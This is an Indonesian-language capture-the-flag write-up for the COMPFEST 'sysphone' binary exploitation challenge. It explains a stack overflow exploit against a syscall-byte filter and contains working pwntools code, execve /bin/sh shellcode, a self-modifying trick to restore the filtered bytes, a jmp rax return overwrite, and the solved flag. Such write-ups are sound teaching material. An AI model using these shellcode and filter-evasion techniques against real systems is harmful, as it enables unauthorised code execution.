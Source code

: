 ```yaml
---

# Penjelasan kode panitia

```py
from pwn import *

context.arch = "amd64"

# p = process("./chall")
p = remote("ctf.compfest.id", "7003")
```

* Pakai **Pwntools** dan target **amd64**.
* Terkoneksi ke service remote `ctf.compfest.id:7003` (bisa juga lokal dengan `process`).

```py
# https://www.exploit-db.com/exploits/46907
shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
```

* Shellcode klasik `execve("/bin//sh")` (varian dari exploit-db 46907).
* Di ujungnya ada **`0F 05`** = instruksi `syscall` (wajib untuk `execve`).

```py
filtered_shellcode = shellcode[:-1] + b"\x00"
```

* Tantangan **mem-filter pasangan byte `0f 05`** saat input dibaca.
* Trik: **ubah byte terakhir `0x05 → 0x00`** saat dikirim, sehingga input **tidak** mengandung `0f 05`.
* Nanti byte `0x05` akan **dipulihkan kembali di memori** (self-modifying).

```py
retoverride = p64(0x000000000040116C)  # Gadget for: jmp rax
```

* Di biner ada gadget **`jmp rax`** (alamat fix karena **non-PIE**).
* Setelah fungsi baca (custom `fgets`) selesai, **RAX = alamat buffer**.
* Kita timpa **RET** → eksekusi gadget → **lompat ke buffer** (shellcode).

```py
# sub    rsp,0x110
allocate_rsp = bytes.fromhex("4881EC10010000")

# mov    WORD PTR [rsp+0x107],0x5
restore_shellcode = bytes.fromhex("66C78424070100000500")
```

* Self-modifying step:

  * `sub rsp, 0x110` → **memundurkan RSP** supaya **RSP = awal buffer** (detail di bawah).
  * `mov word [rsp+0x107], 0x0005` → **menulis kembali `0x05`** ke **byte terakhir** shellcode (yang tadi kita set `0x00`). Karena write-nya **word** (2 byte, `05 00`), byte `0x00` “tumpah” ke offset berikutnya (sudah area saved RBP filler—aman).

```py
BUFFER_SIZE = 0x108  # We will treat saved rbp as part of the buffer
NOP_LENGTH = (
    BUFFER_SIZE - len(allocate_rsp) - len(restore_shellcode) - len(filtered_shellcode)
)
payload = (
    b"1000\n"
    + asm("nop") * NOP_LENGTH
    + allocate_rsp
    + restore_shellcode
    + filtered_shellcode
    + retoverride
)
```

* **Buffer** ukuran `0x100`; di stack tepat setelahnya ada **saved RBP (8B)** → total **`0x108`** sudah melewati saved RBP, *tepat sebelum RET*. Di sini mereka **menganggap saved RBP bagian dari “ruang buffer”** untuk pemaketan.
* **Penjajaran (alignment) kunci**: mereka menghitung `NOP_LENGTH` sehingga:

  ```
  [NOP * N][sub rsp,0x110][mov word [rsp+0x107],0x0005][shellcode’]
  ^ awal buffer                                     ^ byte terakhir shellcode'
  ```

  Artinya **byte terakhir `filtered_shellcode`** tepat di offset **`0x107`** dari **awal buffer**.
  Setelah `sub rsp,0x110` → **RSP = awal buffer**, maka `mov word [rsp+0x107], 0x0005` akan menulis **`0x05`** ke byte itu — memulihkan **`… 0F 05`** **di memori**, bukan di input.
* Terakhir append `retoverride` untuk **mengganti RET** dengan alamat gadget `jmp rax`.
* Mereka menaruh `"1000\n"` di *depan payload*—ini “menjawab” prompt `length:` secara *nyampur* (bisa jalan, tapi lebih rapi biasanya kita kirim length dan data di panggilan terpisah).

```py
p.sendline(payload)
p.interactive()
```

* Kirim payload one-shot; masuk mode interaktif.
  Karena shellcode menjalankan `/bin/sh`, kamu bisa ketik `ls`, `cat flag.txt`, dll.

### Kenapa ini bekerja (urutan eksekusi)

1. Program baca **length** dan **data** ke buffer stack `[rbp-0x100]`.
2. Selesai baca, custom `fgets` **return** → **`RAX = ptr buffer`**.
3. Fungsi **`leave; ret`** → `RET` yang telah kita timpa → **alamat gadget `jmp rax`**.
4. Gadget men-**jump** ke alamat di RAX → start buffer → eksekusi:

   * `NOP …` (lewat)
   * `sub rsp, 0x110` → **RSP** jadi **awal buffer**,
   * `mov word [rsp+0x107], 0x5` → pulihkan `… 0F 05` tepat di **byte terakhir** shellcode,
   * lanjut ke **shellcode** (yang sekarang valid) → spawn `/bin/sh` → kamu `cat flag.txt`.

---
```


# Write-up: “sysphone” (Binary Exploitation)

## Ringkasan

* **Kategori**: pwn / binary exploitation
* **Vuln**: stack buffer overflow, custom read dengan filter byte `0f 05`
* **Mitigasi**: **NX off** (stack executable), **non-PIE** (alamat code fix)
* **Tujuan**: eksekusi shellcode / dapatkan flag
* **Trik inti**: **self-modifying shellcode** (pulihkan `syscall` di memori), atau **2-stage XOR decoder**

## Recon

* Binary 64-bit, **ET\_EXEC (non-PIE)** → alamat gadget fix.
* **NX off** → boleh eksekusi di stack.
* Fungsi rentan: baca **panjang** dari user, lalu **data** ke buffer stack 0x100, kemudian `leave; ret`.
* Custom `fgets` **mem-filter**: kalau input mengandung pasangan byte **`0f 05`** → program exit.
* Setelah `fgets` return, **`RAX` berisi pointer buffer**. Di `.text` ada gadget **`jmp rax`** di **`0x40116c`** (dan opsi lain `0x4011ae`).

## Strategi eksploit

1. **Overflow** hingga **RET** (offset `0x100 + 8 = 0x108`), isi **RET = 0x40116c** (`jmp rax`).

2. **Shellcode** harus **tanpa** pasangan `0f 05` di **INPUT**:

   * **Jalur A (intended / panitia)**: **self-modifying**

     * kirim shellcode `execve("/bin//sh")` tapi **ubah byte terakhir `0x05→0x00`**,
     * jalankan instruksi yang menulis kembali `0x05` **di memori** tepat pada lokasi byte terakhir shellcode,
     * lalu shellcode utuh berjalan.
   * **Jalur B (alternatif)**: **2-stage XOR**

     * stage-1 (tanpa syscall) meng-XOR stage-2 di memori, lalu lompat ke sana.

3. **Layout** (jalur A):

   ```
   [ NOP * N ]
   [ sub rsp, 0x110 ]                    ; RSP -> awal buffer
   [ mov word [rsp+0x107], 0x0005 ]      ; pulihkan byte terakhir syscall
   [ shellcode' (byte terakhir = 0x00) ] ; sekarang sudah valid di memori
   [ saved RBP filler (tercakup di N) ]
   [ RET = 0x40116c (jmp rax) ]
   ```

   `N` dihitung supaya **byte terakhir shellcode** tepat berada di **offset 0x107** dari **awal buffer**.

## Eksploit (kode panitia, worked)

```py
from pwn import *
context.arch = "amd64"
p = remote("ctf.compfest.id", "7003")

shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
filtered = shellcode[:-1] + b"\x00"             # hapus pasangan 0f 05 di input

jmp_rax = p64(0x40116C)                          # gadget: jmp rax (non-PIE)
alloc   = bytes.fromhex("4881EC10010000")        # sub rsp,0x110
restore = bytes.fromhex("66C78424070100000500")  # mov word [rsp+0x107],0x5

BUF = 0x108
NOPLEN = BUF - len(alloc) - len(restore) - len(filtered)

payload = b"1000\n" + asm("nop")*NOPLEN + alloc + restore + filtered + jmp_rax
p.sendline(payload)
p.interactive()
```

## Output

```
js overflow me gng
length: data: $ ls
chall
flag.txt
$ cat flag.txt
COMPFEST17{5H3lLc0d1n9_15_480U7_cR3471V17Y_29d3591b4c}
```

## Catatan & jebakan

* **Filter input** hanya saat **membaca** — aman jika `syscall` dibentuk **setelahnya** (di memori).
* Teknik self-modifying **sensitif offset**: `sub rsp,0x110` dan `[rsp+0x107]` harus pas.
* IO service biasanya minta **`length:` lalu `data:`**; kode panitia menyisipkan `"1000\n"` di payload (kerapihannya bisa ditingkatkan dengan `sendlineafter(...)` + `sendafter(...)`).
* Alternatif **paling robust**: 2-stage XOR decoder (tidak perlu mikir offset tumpul).

## Alternatif (2-stage XOR, ide singkat)

* **Stage-1** (tidak mengandung `0f 05`):
  `call $+5; pop rsi; add rsi,<offset>; mov ecx,L; mov al,key;` lalu loop `xor [rsi],al;` → `jmp rsi`.
* **Stage-2** (ter-XOR): syscall `write("OK\n")`, `open("/flag")`→`read`→`write`.
* Overflow sama: `[stage1+enc_stage2 (<=0x100)] [saved_rbp] [RET=jmp rax]`.
